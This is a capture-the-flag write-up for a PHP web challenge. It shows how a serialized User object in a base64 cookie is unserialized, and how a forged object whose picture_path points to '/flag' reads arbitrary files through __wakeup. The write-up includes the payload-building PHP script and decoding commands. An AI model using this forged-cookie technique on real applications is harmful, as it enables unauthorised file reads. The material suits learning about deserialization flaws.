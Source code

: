 # ## Penguim - (De)Serial Killer

**Author:** randN
**Category:** web
**Difficulty:** easy

## Description
```
Mr Penguim published a website where you can create an account and acess your profile, but be careful because the path to his profile picture is always staring at you.
```

## Solve

The challenge source code was provided, including the Dockerfile. We could look at the source code first, and try to access the application and see how it works. Accessing the URL, the first page served:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/deserial_killer/images/home_page.png?raw=true)

Acessing the register link:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/deserial_killer/images/register_page.png?raw=true)

After creating an account and a successful login:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/deserial_killer/images/login_success.png?raw=true)

we are served an image and we also get a cookie:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/deserial_killer/images/cookie_user.png?raw=true)

The cookie look like something that was encoded in Base64, and by the looks of it a PHP object serialized, because of the first characters `Tz0` that is `O:` decode. All objects serialized in PHP have the same format, and the only thing that changes are the attributes type (int, string, ...) and the size of them.

```bash
echo -n 'Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6InRlc3RlciI7czoxMjoicGljdHVyZV9wYXRoIjtzOjMxOiIvdmFyL3d3dy9odG1sL2F2YXRhci9hdmF0YXIuanBnIjtzOjExOiJwcm9maWxlX3BpYyI7Tjt9' | base64 -d
# Returns
O:4:"User":3:{s:8:"username";s:6:"tester";s:12:"picture_path";s:31:"/var/www/html/avatar/avatar.jpg";s:11:"profile_pic";N;}
```

By the looks of it there is serialization is being used in the web app, but we can confirm that by analyzing the source code. In the index.php:

```php
$tmp = base64_encode(serialize(new User($row['username'], $row['pic_path'])));
setcookie("user", $tmp);
```

that is later used in the home.php file.

```php
$user_obj = unserialize(base64_decode($_COOKIE['user']));
```

The object that is serialized:

```php
class User {
    public $username;
    public $picture_path;
    public $profile_pic;

    public function __construct($name, $path) {
        $this->username = $name;
        $this->picture_path = $path;
    }

    public function __wakeup() {
        $this->profile_pic = file_get_contents($this->picture_path);
    }
}
```

If you go to [unserialize](https://www.php.net/manual/en/function.unserialize) function documentation, we will find that "If the variable being unserialized is an object, after successfully reconstructing the object PHP will automatically attempt to call the [\_\_unserialize()](https://www.php.net/manual/en/language.oop5.magic.php#object.unserialize) or [\_\_wakeup()](https://www.php.net/manual/en/language.oop5.magic.php#object.wakeup) methods (if one exists)."

So, if we create an object where we control the *picture_path* variable, we will be able to get the contents of any file, because there is no protection against Path Traversal.

To create the desired object, we can create a simple PHP script, like so

```php
<?php
class User {
    public $username;
    public $picture_path;
    public $profile_pic;

    public function __construct($name, $path) {
        $this->username = $name;
        $this->picture_path = $path;
    }
}

print(base64_encode(serialize(new User('tester', '/flag'))));
?>
```

We can fing the flag location inside the Dockerfile. Now we can use the payload generated, change the *user* cookie and reload the page. The image does not render now, because the file is not an image, looking into the page source

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/deserial_killer/images/page_source.png?raw=true)

and decoding the Base64

```bash
echo -n 'Q1RGVUF7cEhwX3VuczNyMWFsaVplX2sxbmd9Cg==' | base64 -d
# We get the flag
CTFUA{pHp_uns3r1aliZe_k1ng}
```

### Some good resources if you want to learn more

https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
https://book.hacktricks.xyz/pentesting-web/deserialization
